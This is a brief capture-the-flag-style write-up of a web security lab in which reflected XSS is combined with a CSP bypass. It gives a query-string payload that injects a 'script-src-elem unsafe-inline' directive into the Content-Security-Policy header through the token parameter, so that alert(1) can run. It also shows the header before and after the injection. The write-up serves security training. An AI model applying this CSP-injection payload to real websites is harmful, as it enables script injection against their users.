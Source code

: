 ### Lab: Reflected XSS protected by CSP, with CSP bypass

This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

**In response header:**&#x20;

`Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=`

/?search=alert(1)\&token=;script-src-elem 'unsafe-inline'

**In response header:**&#x20;

`Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem 'unsafe-inline'`
